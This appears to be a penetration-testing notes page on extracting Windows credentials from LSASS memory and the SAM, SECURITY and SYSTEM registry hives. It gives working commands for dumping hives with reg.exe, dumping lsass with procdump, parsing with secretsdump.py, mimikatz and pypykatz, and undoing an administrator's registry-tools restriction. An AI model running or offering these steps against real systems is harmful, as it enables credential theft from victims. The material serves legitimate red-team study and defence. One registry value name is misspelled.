

# Credential Extraction

Multiple credentials are stored on a windows computer. Credentials are usually extracted from two sources the process `Local Security Authority Subsystem Service (LSASS)` and from the registry.


## Local Security Authority Subsystem Service - LSASS

The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalf of users with active Windows sessions.
This allows users to seamlessly access network resources, such as file shares, Exchange Server mailboxes, and SharePoint sites, without re-entering their credentials for each remote service.


Credentials are stored in the LSASS memory in the following actions are performed:
- Logs on to a local session or RDP session on the computer
- Runs a task by using the RunAs option
- Runs an active Windows service on the computer
- Runs a scheduled task or batch job
- Runs a task on the local computer by using a remote administration tool


### NT Hashes

If a domain user performs any of the actions mentioned above the credentials, the NT-hash is stored in the LSASS process.

### WDigest

If WDigest is enabled the domain accounts credentials are stored in plaintext.

## Registry

There are three areas in the registry that are of relevance: `SAM`, `SECURITY` and `SYSTEM`.
These three different areas contains different kinds of secrets.

### SAM - Security Accounts Manager

This "hive" (area in the registry) contains the hashed passwords for the local users. So it contains the NT-hashes of the local users, the same users that you see when you run `net user`.
It is usually extracted like this:

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\system c:\temp\system.save
```

In order to extract the credentials you need the BOOTKEY, and that key is stored in the hive `SYSTEM`.

The hashes can be extracted like this with impackets module `secretsdump.py`.

```
python secretsdump.py LOCAL -sam sam.save -system system.save
```


### Domain Cached Credentials / DCC2 / MSCASH
When a domain user log in to a computer the credentials for that user is cached on the computer. So that it is possible to log on to the computer even when the computer is offline, and not able to communicate with the Domain Controller.

These credentials are stored in the format of Domain Cached Credentials version 2 (DCC2) on Windows Vista and newer. This type of credentials can not be used for Pass-the-Hash attacks. These credentials does not expire. 

By default up to ten credentials are stored on the machine, on windows 10 at least. This can however be configured by configuring the following registry key, increase or decrease it.

```
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\CashedLogonsCount
```

The DCC2 hashes are stored in the `SECURITY` hive. To be more precis in : `HKEY_LOCAL_MACHINE\SECURITY\Cache`.


```
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```

The bootkey, which I think can be found in the `system` hive, needs to be provided in order to extract the DCC2 credentials.

```
python secretsdump.py LOCAL -security security.save -system system.save
```

The DCC2 credentials are not as fast and easy to crack as NT-hashes, but with the right password-list it can be done.


### LSA Secrets

LSA secrets is an area in the registry, under `Security` that contains different kinds of interesting secrets. The data is used by Local System Authority, which is why it is called LSA Secrets. Only the SYSTEM user can access the registry.  

```
HKEY_LOCAL_MACHINE/Security/Policy/Secrets
```



So what are these secrets?

- $MACHINE.ACC - Machine account password - Can be used as any other domain account
- DefaultPassword - If AutoLogon is enabled a password in cleartext can be found.
- NL$KM ??
 
When services are run under the context of a local or domain user the credentials for that user is stored in `Secrets`.

# Extracting credentials from the LSASS process

Sometimes it is not desirable to use Mimikatz on the target machine, because mimikatz is flagged as malware by most antivirus. There are however other ways to solve the problem, using only windows tools. Living of the land.

One way is to dump the lsass process. There are a few ways to do this, one is by using the Task Manager GUI, and the other is by using `procdump.exe` from sysinternals. Procdump is beneficial if you only have command line access, no gui.

**Dump using Task manager**

The GUI way: Open task manager as administrator, rightclick on lsass and click on "Create dump file". Transfer the dump-file to an offline windows machine with Mimikatz on it. 

**Dump using procdump.exe**

If you don't want to download procdump.exe to the victim computer you can host it on another share and then mount the share, and run it from there. It is seldom allowed to mount shares without authentication.

```
net use k: \\10.10.11.11\bbb /user:username password
```

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```


## Mimikatz/Pypykatz

Run mimikatz on your offline windows machine

```
token::elevate
privilege::debug
sekurlsa::minidump lsass.DMP
sekurlsa::logonPasswords full
```

```
pypykatz lsa minidump lsass.DMP
```


# Extract credentials from SAM and SECURITY hives from registry

The other way to do it is simply to download the SAM, SYSTEM and SECURITY files from the compromised host. Transfer those files to your offline windows machine with Mimikatz on it, or simply use secretsdump.py.

If the machine is running you need to dump the SAM and SYSTEM from the registry. 

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```


```
python secretsdump.py LOCAL -sam ~/Documents/credsdump/sam.save -security ~/Documents/credsdump/security.save -system ~/Documents/credsdump/system.save
```

See the [cracking chapter](../../cracking_hashes/cracking_hashes) for instructions on how to crack these hashes.


## Bypassing restrictions 


If you encounter a error such as the following `ERROR Registry editing has been disabled by your administrator` you will need to bypass it.


```powershell
# First verify the current setting
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name DisableRegistryTools 
# Change the setting to disable
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name DisableRegistryTools -Value 0
```

Some other techniques are found here: https://www.online-tech-tips.com/windows-xp/registry-disabled-by-administrator/


## Extract credentials from SAM and SECURITY hives from disk

If you have physical access to the machine and it does not use BitLocker you can just boot up the computer with a live linux and then mount the windows disk.


```
# if the below command shows "Microsoft basic data" or nothing then it is likely that the partition is encrypted, and you can just forget about it and move on.
blkid 
lsblk -f


# if the disk is ntfs or vfat you can mount it like this. Read only.

mount -t ntfs-3g -o ro /dev/sda3 /mnt/something
mount -t vfat -o ro /dev/sda3 /mnt/something
```